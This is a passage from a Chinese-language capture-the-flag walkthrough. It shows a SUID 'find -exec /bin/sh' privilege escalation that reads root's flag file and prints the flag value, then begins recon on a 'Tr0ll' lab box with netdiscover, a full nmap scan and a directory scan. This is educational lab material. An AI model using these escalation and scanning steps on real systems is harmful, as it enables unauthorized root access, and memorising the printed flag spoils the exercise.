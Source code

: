 ```
touch hello   #创建hello文件
id
find hello -exec "/bin/sh" \;
whoami
cd /root
ls
cat flag4.txt

```

![image-20220301195531644](https://gitee.com/xxb667/img/raw/master/img/image-20220301195531644.png)

## 4.2 flag4文件

```
flag4{df2bc5e951d91581467bb9a2a8ff4425}
```

# 第3次 Tr0ll

# 1.信息搜集

## 1.1主机发现

在kali里面输入

```
netdiscover -r 192.168.81.0/24
```

![image-20220304204757942](https://gitee.com/xxb667/img/raw/master/img/image-20220304204757942.png)



## 1.2端口扫描

输入命令

nmap命令：

```
nmap -sS -sV -T5 -A -p- 192.168.81.141
```

得到开放的3个端口：21、22和80端口

![image-20220304205142036](https://gitee.com/xxb667/img/raw/master/img/image-20220304205142036.png)

## 3.用御剑进行扫描

得到两个网址
